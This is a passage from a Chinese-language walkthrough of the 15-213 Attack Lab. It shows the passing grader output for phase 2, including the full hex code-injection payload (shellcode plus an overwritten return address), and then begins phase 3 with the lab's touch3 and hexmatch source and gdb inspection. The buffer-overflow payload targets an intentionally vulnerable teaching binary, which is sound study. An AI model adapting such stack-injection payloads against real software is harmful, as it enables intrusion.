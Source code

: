 ```bash
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:B8 E4 44 60 00 67 8B 38 48 83 EC 08 C7 04 24 EC 17 40 00 C3 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 78 DC 61 55
```

成功！

### Phase 3：在 buf 中插入所需字符串和攻击代码，并覆盖返回地址

在 phase 3 中，我们需要让程序在`getbuf`后，运行`touch3`函数，其注入方式和 phase 2 类似。（此处需要利用`vlevel = 3`进行跳转后验证，因此和上次一样，我们不能直接跳转到`Touch3!`语句，还是需要注入代码，将`%rdi`设置为`cookie`的值，然后再引导程序跳转到`touch3`的开头语句）。`touch3`函数的 C 语言版本如下：

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3("%s")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3("%s")\n", sval);
        fail(3);
    }
    exit(0);
}
```

#### 一开始的错误解答

这里的差别在于我们输入的`string`是一个`cookie`的字符串表示。我们对`touch3`做反汇编看看`cookie`的字符串表示存在哪里？

```
   0x000000000040190b <+17>:    mov    0x202bd3(%rip),%edi        # 0x6044e4 <cookie>
```

我们输入`x/s 0x6044e4`看看结果：

```
(gdb) x/s 0x6044e4
0x6044e4 <cookie>:      ""
```
